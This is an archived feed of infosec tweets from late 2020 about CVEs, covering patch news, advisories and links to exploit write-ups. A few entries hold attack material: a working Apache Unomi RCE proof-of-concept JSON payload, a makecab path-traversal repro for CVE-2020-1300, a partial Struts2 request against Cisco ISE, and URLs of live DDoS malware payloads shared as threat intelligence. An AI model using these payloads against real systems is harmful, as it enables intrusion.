# _mohemiv
**https://twitter.com/_mohemiv/status/1329438812158746629 _at Thu Nov 19 14:58:07 +0000 2020_**
<blockquote>
Do you known that Cisco ISE is vulnerable to CVE-2017-5638 Apache Struts2 RCE?

Port: 8443
Payload:

GET /sponsorportal/LoginCheck.action HTTP/1.0
Host: 10.0.0.1:8443
User-Agent: Mozilla
Content-Type: %{...}

Cisco ISE is a NAP system that might be found on network boundaries.
</blockquote>

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>103</code></td>
<td>Favorites: <code>361</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1329421633287827457 _at Thu Nov 19 13:49:51 +0000 2020_**
<blockquote>
RT @ptswarm: The advisory for multiple unauth RCE in Cisco Integrated Management Controller (CVE-2020-3470) is now out!

Buffer Overflows l…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# ptswarm
**https://twitter.com/ptswarm/status/1329417273719853062 _at Thu Nov 19 13:32:32 +0000 2020_**
<blockquote>
The advisory for multiple unauth RCE in Cisco Integrated Management Controller (CVE-2020-3470) is now out!

Buffer Overflows lead to RCE with uid=0 (root) privileges

Discovered by Nikita Abramov

https://t.co/s6T3YDswoG https://t.co/8fBFauF8SR
</blockquote>

* https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-ucs-api-rce-UXwpeDHd

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>143</code></td>
</tr></table>

---
# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1329091248997625857 _at Wed Nov 18 15:57:01 +0000 2020_**
<blockquote>
ICYMI @mmolgtm explains how to exploit CVE-2020-6449, a use-after-free (UAF) in the WebAudio module of Chrome, and achieve a sandboxed RCE. Read also how he used #CodeQL to accelerate his code audit https://t.co/k5ddV8Scv3
</blockquote>

* https://github.co/3msMoMy

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>84</code></td>
</tr></table>

---
# pyn3rd
**https://twitter.com/pyn3rd/status/1328920545442680837 _at Wed Nov 18 04:38:42 +0000 2020_**
<blockquote>
#CVE-2020-13942 Apache Unomi Remote Code Execution

PoC:
{"filters":[{"id" : "pyn3rd","filters": [{"condition": {"parameterValues": {"pyn3rd": "script::Runtime.getRuntime().exec('open -a Calculator')"},"type":"profilePropertyCondition"}}]}],"sessionId": "pyn3rd"} https://t.co/Gcw5FcZiNp
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>162</code></td>
<td>Favorites: <code>484</code></td>
</tr></table>

---
# iamelli0t
**https://twitter.com/iamelli0t/status/1328890412413534209 _at Wed Nov 18 02:38:58 +0000 2020_**
<blockquote>
When analyzing CVE-2020-1380, I found another path to trigger a similar UAF vulnerability by neutering ArrayBuffer without JIT. 
It has beed fixed in Microsoft November’s Patch as CVE-2020-17053.
https://t.co/ucHH2cmYVN
</blockquote>

* https://www.trendmicro.com/en_us/research/20/k/cve-2020-17053-use-after-free-ie-vulnerability.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1327652599051464704 _at Sat Nov 14 16:40:20 +0000 2020_**
<blockquote>
Exploring the Exploitability of “Bad Neighbor”: The Recent ICMPv6 Vulnerability (CVE-2020-16898)  https://t.co/WHjYcHvudH  #Pentesting #RCE #Vulnerability #CyberSecurity #Infosec https://t.co/CpYiv9N27y
</blockquote>

* https://blog.zecops.com/vulnerabilities/exploring-the-exploitability-of-bad-neighbor-the-recent-icmpv6-vulnerability-cve-2020-16898/

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1326656333580480514 _at Wed Nov 11 22:41:32 +0000 2020_**
<blockquote>
BREAKING: Google patches two more Chrome zero-days

This includes:
-CVE-2020-16013 - impacts Chrome V8 JS engine
-CVE-2020-16017 - impacts Chrome's Site Isolation feature

Google has now patched five Chrome zero-days in three weeks

https://t.co/ohF2CHwvOG https://t.co/BXFa1wzSwR
</blockquote>

* https://www.zdnet.com/article/google-patches-two-more-chrome-zero-days/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>94</code></td>
<td>Favorites: <code>157</code></td>
</tr></table>

---
# sourceincite
**https://twitter.com/sourceincite/status/1326626570073755648 _at Wed Nov 11 20:43:16 +0000 2020_**
<blockquote>
Microsoft Exchange Server ExportExchangeCertificate WriteCertiricate File Write Remote Code Execution Vulnerability

CVE: CVE-2020-17083
Advisory: https://t.co/sf7upoNmjC
PoC exploit: https://t.co/lzKWSGhSjG
</blockquote>

* https://srcincite.io/advisories/src-2020-0025/
* https://srcincite.io/pocs/cve-2020-17083.ps1.txt

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>124</code></td>
<td>Favorites: <code>201</code></td>
</tr></table>

---
# ackmage
**https://twitter.com/ackmage/status/1326583893080870915 _at Wed Nov 11 17:53:41 +0000 2020_**
<blockquote>
new tags to track recent WebLogic RCE (CVE-2020-14882, 14883, 14750) -

https://t.co/XH4J4A5RIh

https://t.co/uq9mqYuvHV
</blockquote>

* http://viz.greynoise.io/query/?gnql=tags%3A%22Oracle%20WebLogic%20RCE%20CVE-2020-14882%22
* http://viz.greynoise.io/query/?gnql=tags%3A%22Oracle%20WebLogic%20RCE%20CVE-2020-14750%22

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1326468227040374784 _at Wed Nov 11 10:14:04 +0000 2020_**
<blockquote>
November 2020 Patch Tuesday — #Microsoft releases security updates for 112 newly discovered vulnerabilities, including an actively exploited zero-day flaw (CVE-2020-17087) disclosed by #Google's security team last week.

https://t.co/DwSQZTX8v6

#Infosec #CyberSecurity
</blockquote>

* https://thehackernews.com/2020/11/microsoft-releases-windows-security.html

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>140</code></td>
<td>Favorites: <code>214</code></td>
</tr></table>

---
# steventseeley
**https://twitter.com/steventseeley/status/1326284184122519561 _at Tue Nov 10 22:02:45 +0000 2020_**
<blockquote>
The description for CVE-2020-17083 is wrong, user interaction is *not* required. Also this is RCE as SYSTEM, so the actual CVSS is 8.5: https://t.co/qJWBH3ldCf
</blockquote>

* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-17083

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>96</code></td>
</tr></table>

---
# EranShimony
**https://twitter.com/EranShimony/status/1326225811087749121 _at Tue Nov 10 18:10:48 +0000 2020_**
<blockquote>
This was a long wait, this will be my last blog for some while - CVE-2020-22460, CVE-12330, CVE-2020-12335
https://t.co/ALNAPL16xT
</blockquote>

* https://www.cyberark.com/resources/threat-research-blog/intel-please-stop-assisting-me

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1325935382991523840 _at Mon Nov 09 22:56:44 +0000 2020_**
<blockquote>
Critical Vulnerabilities Discovered in TCL Android TVs

CVE-2020-27403
Full file system browsing of the TV in the browser.

CVE-2020-28055
World writable update folder (malicious updates possible)
 : https://t.co/nahQGxkhGY 

credits @sickcodes  || @johnjhacking
</blockquote>

* https://sick.codes/extraordinary-vulnerabilities-discovered-in-tcl-android-tvs-now-worlds-3rd-largest-tv-manufacturer/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>87</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1325926835591421953 _at Mon Nov 09 22:22:46 +0000 2020_**
<blockquote>
How I found a Tor vulnerability in Brave Browser, reported it, watched it get patched, got a CVE (CVE-2020-8276) and a small bounty, all in one working day : https://t.co/byy6rmUOl7   credits @sickcodes
</blockquote>

* https://community.disclose.io/t/how-i-found-a-tor-vulnerability-in-brave-browser-reported-it-watched-it-get-patched-got-a-cve-cve-2020-8276-and-a-small-bounty-all-in-one-working-day/65

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>290</code></td>
</tr></table>

---
# GossiTheDog
**https://twitter.com/GossiTheDog/status/1324896051128635392 _at Sat Nov 07 02:06:48 +0000 2020_**
<blockquote>
Free threat intel - identify and patch VMware ESX vulnerabilities CVE-2019-5544 and CVE-2020-3992. 

Ransomware group using them to bypass all Windows OS security, by shutting down VMs and encrypting the VMDK’s directly on hypervisor.
</blockquote>

<table><tr>
<td>Quotes: <code>33</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>305</code></td>
<td>Favorites: <code>771</code></td>
</tr></table>

---
# cherepanov74
**https://twitter.com/cherepanov74/status/1324427068592001025 _at Thu Nov 05 19:03:14 +0000 2020_**
<blockquote>
RT @benhawkes: Apple have fixed three issues reported by Project Zero that were being actively exploited in the wild. CVE-2020-27930 (RCE),…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>461</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# benhawkes
**https://twitter.com/benhawkes/status/1324422885830610944 _at Thu Nov 05 18:46:37 +0000 2020_**
<blockquote>
Apple have fixed three issues reported by Project Zero that were being actively exploited in the wild. CVE-2020-27930 (RCE), CVE-2020-27950 (memory leak), and CVE-2020-27932 (kernel privilege escalation). The security bulletin is available here: https://t.co/4OIReajIp6
</blockquote>

* https://support.apple.com/en-us/HT211929

<table><tr>
<td>Quotes: <code>144</code></td>
<td>Replies: <code>19</code></td>
<td>Retweets: <code>461</code></td>
<td>Favorites: <code>1011</code></td>
</tr></table>

---
# Exploit_Box
**https://twitter.com/Exploit_Box/status/1324198238887514112 _at Thu Nov 05 03:53:57 +0000 2020_**
<blockquote>
Git  &amp; GitHub CLI Remote CodeExec #RCE #exploit  via Git LFS CVE-2020-27955 @dawid_golunski

Repo clone to Pwn ;) Full advisory with #PoC at
https://t.co/n0vnrcSUCg

#cybersecurity #infosec #hacking #security  #0day #git #github cli  #vuln #DevOps https://t.co/516I33RxYd
</blockquote>

* https://exploitbox.io/vuln/Git-Git-LFS-RCE-Exploit-CVE-2020-27955.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---
# TimoHirvonen
**https://twitter.com/TimoHirvonen/status/1324060555536117764 _at Wed Nov 04 18:46:50 +0000 2020_**
<blockquote>
How would you exploit this UAF :)?

“Discovery and analysis of a Windows PhoneBook Use-After-Free vulnerability (CVE-2020-1530)”, an instructive blog post by @symeonp:
https://t.co/AHw1uWdm7e
</blockquote>

* https://symeonp.github.io/2020/12/08/phonebook-uaf-analysis.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---
# hackerfantastic
**https://twitter.com/hackerfantastic/status/1324022373255909377 _at Wed Nov 04 16:15:07 +0000 2020_**
<blockquote>
CVE-2020-14871 had been exploited and distributed in the wild to numerous groups since at least October 6th 2014. That's 6 years that this vulnerability was available as 0day to multiple non-exclusive parties, VBI leak in HT emails shows it's the same bug. https://t.co/Prh3tm3DHN https://t.co/Efv6jtPFOB
</blockquote>

* https://wikileaks.org/hackingteam/emails/emailid/45441

<table><tr>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>127</code></td>
</tr></table>

---
# steventseeley
**https://twitter.com/steventseeley/status/1323694078022848512 _at Tue Nov 03 18:30:35 +0000 2020_**
<blockquote>
For those that want to repro CVE-2020-1300 you can just use makecab, no need to manually calc checksums now:

c:\&gt;type files.txt
"rce.exe" "../../rce.exe"
c:\&gt;makecab /f files.txt
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>136</code></td>
</tr></table>

---
# hackerfantastic
**https://twitter.com/hackerfantastic/status/1323640631613394945 _at Tue Nov 03 14:58:13 +0000 2020_**
<blockquote>
Dirty libssh2 PoC for CVE-2020-14871 to core target and pack with your favorite shellcode &amp; return addresses, something for the kidz on lockdown. Happy Hacking. https://t.co/7dqSGjOXqw https://t.co/UtnyDtxx1s
</blockquote>

* https://github.com/hackerhouse-opensource/exploits/blob/master/prdelka-vs-SUN-sshd.tgz

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>297</code></td>
</tr></table>

---
# benhawkes
**https://twitter.com/benhawkes/status/1323374326150701057 _at Mon Nov 02 21:20:01 +0000 2020_**
<blockquote>
Today Chrome fixed two more vulnerabilities that were being actively exploited in the wild (discovered by Project Zero/Google TAG last week). CVE-2020-16009 is a v8 bug used for remote code execution, CVE-2020-16010 is a Chrome sandbox escape for Android. https://t.co/IOhFwT0Wx1
</blockquote>

* https://chromereleases.googleblog.com/2020/11/stable-channel-update-for-desktop.html

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>140</code></td>
<td>Favorites: <code>323</code></td>
</tr></table>

---
# anttitikkanen
**https://twitter.com/anttitikkanen/status/1323371654966349826 _at Mon Nov 02 21:09:24 +0000 2020_**
<blockquote>
Another in-the-wild Chrome 0day patched (CVE-2020-16009), reported by @_clem1 from TAG and @5aelo from Project Zero: https://t.co/SP1SR3aXEp
</blockquote>

* https://chromereleases.googleblog.com/2020/11/stable-channel-update-for-desktop.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1323199634538332162 _at Mon Nov 02 09:45:51 +0000 2020_**
<blockquote>
WATCH OUT! Google disclosed details of a new zero-day flaw (CVE-2020-17087) in the Windows operating system that's being actively exploited in the wild.

Details: https://t.co/tgtxsM9N2u

#infosec #cybersecurity
</blockquote>

* https://thehackernews.com/2020/11/warning-google-discloses-windows-zero.html

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>181</code></td>
<td>Favorites: <code>225</code></td>
</tr></table>

---
# certbund
**https://twitter.com/certbund/status/1322978362575540232 _at Sun Nov 01 19:06:36 +0000 2020_**
<blockquote>
⚠️ Please apply the latest Chromium-based browser security updates (e. g. Chromium, Chrome, Microsoft Edge, Vivaldi) to fix FreeType heap-based buffer overflow CVE-2020-15999 which is actively exploited 🔥
https://t.co/gm0LrCFEmM
https://t.co/CB7HHt8FRb
https://t.co/fu6gPRX1gX
</blockquote>

* https://chromereleases.googleblog.com/2020/10/stable-channel-update-for-desktop_20.html
* https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/ADV200002
* https://vivaldi.com/blog/news/minor-update-for-vivaldi-desktop-browser-3-4/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1322244795155288064 _at Fri Oct 30 18:31:39 +0000 2020_**
<blockquote>
NEW: Google discloses Windows zero-day exploited in the wild

-Impacts Windows 7 up to the latest Windows 10
-Used together with a Chrome zero-day (patched last week)

Windows zero-day CVE: CVE-2020-17087
Chrome zero-day CVE: CVE-2020-15999 

https://t.co/hddB1UvqXc https://t.co/y3R9sPU7z7
</blockquote>

* https://www.zdnet.com/article/google-discloses-windows-zero-day-exploited-in-the-wild/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>207</code></td>
</tr></table>

---
# AdmVonSchneider
**https://twitter.com/AdmVonSchneider/status/1322219820423798786 _at Fri Oct 30 16:52:25 +0000 2020_**
<blockquote>
RT @benhawkes: In addition to last week's Chrome/freetype 0day (CVE-2020-15999), Project Zero also detected and reported the Windows kernel…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>182</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# benhawkes
**https://twitter.com/benhawkes/status/1322206828202127360 _at Fri Oct 30 16:00:47 +0000 2020_**
<blockquote>
In addition to last week's Chrome/freetype 0day (CVE-2020-15999), Project Zero also detected and reported the Windows kernel bug (CVE-2020-17087) that was used for a sandbox escape. The technical details of CVE-2020-17087 are now available here: https://t.co/bO451188Mk
</blockquote>

* https://bugs.chromium.org/p/project-zero/issues/detail?id=2104

<table><tr>
<td>Quotes: <code>28</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>183</code></td>
<td>Favorites: <code>364</code></td>
</tr></table>

---
# testanull
**https://twitter.com/testanull/status/1321390624042442753 _at Wed Oct 28 09:57:29 +0000 2020_**
<blockquote>
Analysis of CVE-2020-14882
Weblogic RCE via HTTP CVSS 9.8/10
Hope you enjoy it ;)
Thanks an anonymous man for supporting!
https://t.co/Olhn9oye0r
</blockquote>

* https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>259</code></td>
<td>Favorites: <code>649</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1321159014252597249 _at Tue Oct 27 18:37:09 +0000 2020_**
<blockquote>
GitHub - rogue-kdc/CVE-2020-16939: PoC code for CVE-2020-16939 Windows Group Policy DACL Overwrite Privilege Escalation - https://t.co/JCs5qb6d7L
</blockquote>

* https://github.com/rogue-kdc/CVE-2020-16939

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---
# mmolgtm
**https://twitter.com/mmolgtm/status/1321135708858470402 _at Tue Oct 27 17:04:33 +0000 2020_**
<blockquote>
In this post I'll go through the exploit of CVE-2020-6449, a use-after-free in blink that I found in March, and break PartitionAlloc in the process: https://t.co/MG7HRkGZpk
</blockquote>

* https://securitylab.github.com/research/CVE-2020-6449-exploit-chrome-uaf

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>112</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1321123122226040832 _at Tue Oct 27 16:14:32 +0000 2020_**
<blockquote>
Using the Windows Group Policy client to escalate privileges. @rogue_kdc provides a guest blog and PoC showing how CVE-2020-16939 can be abused by attackers to obtain full permissions on the contents of a folder. https://t.co/0PyMPWkM8y
</blockquote>

* https://bit.ly/3jzOoka

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>92</code></td>
</tr></table>

---
# bad_packets
**https://twitter.com/bad_packets/status/1320158900251865089 _at Sun Oct 25 00:23:03 +0000 2020_**
<blockquote>
Active DDoS malware payload detected:
http://172.245.7.141/b
http://172.245.7.141/c
http://172.245.7.141/w

Target:
Tenda AC1200 router RCE (CVE-2019-5071)
Tenda AC1900 router RCE (CVE-2020-10987)
WiFiDog RCE

Exploit attempt source IP: 172.245.7.141 (🇺🇸)
#threatintel https://t.co/NFQxJamSzE
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---
# ayatokura
**https://twitter.com/ayatokura/status/1319587705462747137 _at Fri Oct 23 10:33:20 +0000 2020_**
<blockquote>
⚠️VS Codeで、悪意のある「package.json」ファイルを開くと、リモートコード実行される脆弱性が報告されています。対処方法として最新版1.50.1に更新しておきましょう‼️
🌐CVE-2020-17023 Visual Studio JSON Remote Code Execution Vulnerability
https://t.co/QPYQzDqKm7
#VSCodejp #VSCode快適生活 https://t.co/70XRMOSxkj
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-17023

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---
# 80vul
**https://twitter.com/80vul/status/1319143436159647744 _at Thu Oct 22 05:07:58 +0000 2020_**
<blockquote>
[Vulnerability warning] CVE-2020-14882 + CVE-2020-14883 = one Get request RCE!  Please update immediately! https://t.co/rej5WheNUY https://t.co/Jy1cAwfj0r
</blockquote>

* https://www.oracle.com/security-alerts/cpuoct2020.html

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>198</code></td>
</tr></table>

---
# KentonVarda
**https://twitter.com/KentonVarda/status/1319017350180503557 _at Wed Oct 21 20:46:57 +0000 2020_**
<blockquote>
🚨ICYMI: Chrome patched a zero-day today (CVE-2020-15999) that's being actively exploited in the wild. Update now.🚨

Note Firefox uses the same vulnerable library (freetype). I can't find any info on whether Firefox is vulnerable or if they've pushed any kind of fix...
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---
# certbund
**https://twitter.com/certbund/status/1318855168042074117 _at Wed Oct 21 10:02:29 +0000 2020_**
<blockquote>
Die am 13.10. von Microsoft bereitgestellten #Sicherheitsupdates zur Behebung der kritischen #RCE #Schwachstelle CVE-2020-16952 in #SharePoint 2013-2019 wurden bislang auf fast keinem System in Deutschland eingespielt.
PoC #Exploit-Code ist öffentlich verfügbar! #PATCHNOW! https://t.co/v6IeX7zLya
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# GoSecure_Inc
**https://twitter.com/GoSecure_Inc/status/1318653999600500746 _at Tue Oct 20 20:43:07 +0000 2020_**
<blockquote>
Our CVE-2020-1013 #LPE #PoC is out: WSuspicious
Available here: https://t.co/d3aZgLKi4v
Blog post reminder: https://t.co/wztiqQ7bj8
Research on #WSUS is still ongoing btw 🤫
</blockquote>

* https://github.com/GoSecure/WSuspicious/
* https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>96</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1318650517124427777 _at Tue Oct 20 20:29:17 +0000 2020_**
<blockquote>
BREAKING: Google releases Chrome security update to patch actively exploited zero-day

-Google Chrome 86.0.4240.111 released with a fix
-0day is CVE-2020-15999 (a heap buffer overflow in the FreeType font rendering library)

https://t.co/K73F1MV64T https://t.co/f1mCDUytbC
</blockquote>

* https://www.zdnet.com/article/google-releases-chrome-security-update-to-patch-actively-exploited-zero-day/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>120</code></td>
<td>Favorites: <code>177</code></td>
</tr></table>

---
# benhawkes
**https://twitter.com/benhawkes/status/1318640422571266048 _at Tue Oct 20 19:49:10 +0000 2020_**
<blockquote>
Project Zero discovered and reported an actively exploited 0day in freetype that was being used to target Chrome. A stable release that fixes this issue (CVE-2020-15999) is available here: https://t.co/ZRQe72Qfkh
</blockquote>

* https://chromereleases.googleblog.com/2020/10/stable-channel-update-for-desktop_20.html

<table><tr>
<td>Quotes: <code>44</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>239</code></td>
<td>Favorites: <code>602</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1318581168313311232 _at Tue Oct 20 15:53:43 +0000 2020_**
<blockquote>
RT @Adam_pi3: CVE-2020-16898 – Exploiting "Bad Neighbor" vulnerability. My very detailed write-up with all the caveats + PoC code
https://t…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>363</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# hkashfi
**https://twitter.com/hkashfi/status/1318566290647322624 _at Tue Oct 20 14:54:36 +0000 2020_**
<blockquote>
CVE-2020-13957 is a pretty handy bug. Easy RCE on Solr  6/7/8x versions, pre-auth often. If the Solr version is old enough, you can even chain it with CVE-2017-3164 to exploit non-exposed instances too! 

Never expose your Solr API/Admin interface, even internally. It's BAD idea!
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1317356809787592705 _at Sat Oct 17 06:48:33 +0000 2020_**
<blockquote>
Hacker publishes a detailed explanation of the exploitation of Windows TCP/IP remote code execution (CVE-2020-16898) vulnerability.

https://t.co/P3HuTggpYY
</blockquote>

* http://blog.pi3.com.pl/?p=780

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>293</code></td>
<td>Favorites: <code>572</code></td>
</tr></table>

---
# Adam_pi3
**https://twitter.com/Adam_pi3/status/1317178701457575936 _at Fri Oct 16 19:00:49 +0000 2020_**
<blockquote>
CVE-2020-16898 – Exploiting "Bad Neighbor" vulnerability. My very detailed write-up with all the caveats + PoC code
https://t.co/MhKxEvLig4
</blockquote>

* http://blog.pi3.com.pl/?p=780

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>363</code></td>
<td>Favorites: <code>733</code></td>
</tr></table>

---
# quarkslab
**https://twitter.com/quarkslab/status/1317034233236520960 _at Fri Oct 16 09:26:45 +0000 2020_**
<blockquote>
[BLOG] Beware the Bad Neighbor: Analysis and PoC of the Windows IPv6 Router Advertisement Vulnerability (CVE-2020-16898) https://t.co/YQqarGG6Hy by @fdfalcon
</blockquote>

* https://blog.quarkslab.com/beware-the-bad-neighbor-analysis-and-poc-of-the-windows-ipv6-router-advertisement-vulnerability-cve-2020-16898.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>202</code></td>
</tr></table>

---
# cyber_advising
**https://twitter.com/cyber_advising/status/1317017834791329792 _at Fri Oct 16 08:21:35 +0000 2020_**
<blockquote>
CVE-2020-16947: PoC of CVE-2020-16947 (Microsoft Outlook RCE vulnerablility)

https://t.co/0ck5mrbwaO https://t.co/AOvsBKdGVF
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>219</code></td>
</tr></table>

---
# certbund
